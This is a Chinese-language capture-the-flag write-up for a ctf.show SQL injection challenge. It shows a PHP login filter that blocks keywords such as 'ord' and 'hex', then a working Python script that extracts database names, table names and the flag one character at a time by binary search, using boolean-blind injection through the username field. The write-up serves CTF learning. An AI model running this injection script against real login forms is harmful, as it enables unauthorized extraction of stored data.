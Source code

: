 ```php
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```
多过滤了ord，那么直接进行字符串比较，poc：
```python
'''
Author: KonDream
Date: 2021-12-09 20:45:17
LastEditors:  KonDream
LastEditTime: 2021-12-09 20:54:22
Description:  
'''
import requests

url = 'http://0e20d1b9-a6d4-495d-8889-263eeb704e1f.challenge.ctf.show/api/'

flag = '' 
# 爆数据库名 ctfshow_fl0g,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,f1ag
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
# 爆字段
payload = "select f1ag from ctfshow_fl0g"


for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break

        data = {
            # 如果某个字符比如c大于chr(99),则返回1，否则返回0，根据回显不同最终确定某位置的某字符
            'username':"1' or if(substr(({}), {}, 1) > '{}', 1, 0)-- -".format(payload, i, chr(mid)),
            'password':1
        }
        r = requests.post(url=url, data=data)
        # print(r.text)
        if r'\u5bc6\u7801\u9519\u8bef' in r.text: #返回'查询失败'证明匹配成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
有个尴尬就是服务器中mysql设置是大小写不敏感的，所以爆出来的数据库、表名和flag需要手动转换一下
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639054684573-02f7fad3-e18f-48a5-b5ee-c0af6811ee70.png)
